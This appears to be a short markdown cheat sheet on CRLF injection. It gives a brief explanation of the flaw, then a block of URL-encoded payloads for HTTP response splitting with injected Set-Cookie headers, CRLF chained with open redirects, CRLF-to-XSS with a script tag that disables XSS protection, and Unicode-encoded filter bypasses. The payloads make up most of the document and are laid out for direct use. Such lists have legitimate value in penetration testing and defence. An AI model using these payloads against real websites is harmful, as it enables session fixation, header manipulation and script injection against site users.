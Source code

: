# **CRLF Injection (%0d%0a)** #
## **What is CRLF Injection?** ##
CRLF injection vulnerability is a type of security flaw that occurs when an attacker can inject carriage return (CR) and line feed (LF) characters into an application's input. These characters are used to control the formatting of text in protocols like HTTP. Exploiting this vulnerability can allow attackers to manipulate the behavior of the application, such as inserting additional HTTP headers, modifying content, or performing other malicious actions. This can lead to various attacks, including HTTP response splitting, cross-site scripting (XSS), and session fixation.

## **Payloads** ##

```
1. HTTP Response Splitting
• /%0D%0ASet-Cookie:mycookie=myvalue
2. CRLF chained with Open Redirect
• //www.google.com/%2F%2E%2E%0D%0AHeader-Test:test2                     
• /www.google.com/%2E%2E%2F%0D%0AHeader-Test:test2                       
• /google.com/%2F..%0D%0AHeader-Test:test2
• /%0d%0aLocation:%20http://example.com
3. CRLF Injection to XSS
• /%0d%0aContent-Length:35%0d%0aX-XSS-Protection:0%0d%0a%0d%0a23
• /%3f%0d%0aLocation:%0d%0aContent-Type:text/html%0d%0aX-XSS-Protection%3a0%0d%0a%0d%0a%3Cscript%3Ealert%28document.domain%29%3C/script%3E
4. Filter Bypass
• %E5%98%8A = %0A = \u560a
• %E5%98%8D = %0D = \u560d
• %E5%98%BE = %3E = \u563e (>)
• %E5%98%BC = %3C = \u563c (<)
• Payload = %E5%98%8A%E5%98%8DSet-Cookie:%20test
```
### **Reference:** ###
[https://medium.com/cyberverse/crlf-injection-playbook-472c67f1cb46](https://medium.com/cyberverse/crlf-injection-playbook-472c67f1cb46)